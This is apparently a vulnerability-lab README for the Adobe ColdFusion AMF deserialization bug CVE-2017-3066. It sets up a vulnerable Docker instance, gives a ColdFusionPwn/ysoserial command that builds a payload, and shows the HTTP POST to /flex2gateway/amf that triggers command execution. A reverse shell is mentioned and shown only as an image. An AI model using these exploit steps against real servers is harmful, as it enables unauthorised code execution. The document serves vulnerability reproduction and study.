 # Adobe ColdFusion AMF Deserialization Remote Command Execution (CVE-2017-3066)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion 2016 Update 3 and earlier, ColdFusion 11 update 11 and earlier, ColdFusion 10 Update 22 and earlier have a Java deserialization vulnerability in the Apache BlazeDS library. Successful exploitation could lead to arbitrary code execution.

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## Vulnerable environment

Start a Adobe ColdFusion 11 update 3:

```
docker-compose up -d
```

After a few minutes wait, visit `http://your-ip:8500/CFIDE/administrator/index.cfm` with password `vulhub`, you can install the Adobe ColdFusion successfully.

## Exploit

Generate a POC via [ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn) in the `poc.ser`:

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

Send the request to `http://your-ip:8500/flex2gateway/amf`, which contains the `application/x-amf` Content-Type and POC within the body:

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![](1.png)

`/tmp/success` is successfully created:

![](2.png)

Get a reverse shell:

![](3.png)